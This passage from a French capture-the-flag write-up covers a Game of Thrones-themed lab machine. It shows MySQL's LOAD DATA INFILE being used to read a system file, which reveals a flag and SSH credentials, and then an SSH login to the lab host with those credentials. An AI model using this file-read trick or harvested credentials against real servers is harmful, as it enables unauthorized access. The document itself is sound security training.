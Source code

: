 Je trouve [un décodeur de Morse en ligne](http://www.onlineconversion.com/morse_code.htm) qui retourne */ETC/MYSQL/FLAG*  

Le reste vient tout seul :  

```plain
mysql> create table dump (data text);
Query OK, 0 rows affected (0,19 sec)

mysql> load data infile '/etc/mysql/flag' into table dump;
Query OK, 7 rows affected (0,03 sec)
Records: 7  Deleted: 0  Skipped: 0  Warnings: 0

mysql> select * from dump;
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| data                                                                                                                                                                                                                                 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
|                                                                                                                                                                                                                                      |
| Congratulations. You conquered the last kingdom flag.                                                                                                                                                                                |
| This is your flag: c8d46d341bea4fd5bff866a65ff8aea9                                                                                                                                                                                  |
| Now you must find the Dragonglass mine to forge stronger weapons.                                                                                                                                                                    |
| Ssh user-pass:                                                                                                                                                                                                                       |
| daenerystargaryen-.Dracarys4thewin.
| "All men must die, but we are not men" - Daenerys Stormborn of the House Targaryen, First of Her Name, the Unburnt, Queen of the Andals and the First Men, Khaleesi of the Great Grass Sea, Breaker of Chains, and Mother of Dragons |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
7 rows in set (0,01 sec)
```

Un petit verre de dragon pour la route ?
----------------------------------------

```plain
$ ssh daenerystargaryen@192.168.0.3
daenerystargaryen@192.168.0.3's password:
 __            _   _            ___
|  |   ___ ___| |_|_|___ ___   |  _|___ ___
|  |__| . | . | '_| |   | . |  |  _| . |  _|
|_____|___|___|_,_|_|_|_|_  |  |_| |___|_|
                        |___|
 ____                          _
|    \ ___ ___ ___ ___ ___ ___| |___ ___ ___
|  |  |  _| .'| . | . |   | . | | .'|_ -|_ -|
|____/|_| |__,|_  |___|_|_|_  |_|__,|___|___|
              |___|       |___|

daenerystargaryen@7kingdoms:~$ id
```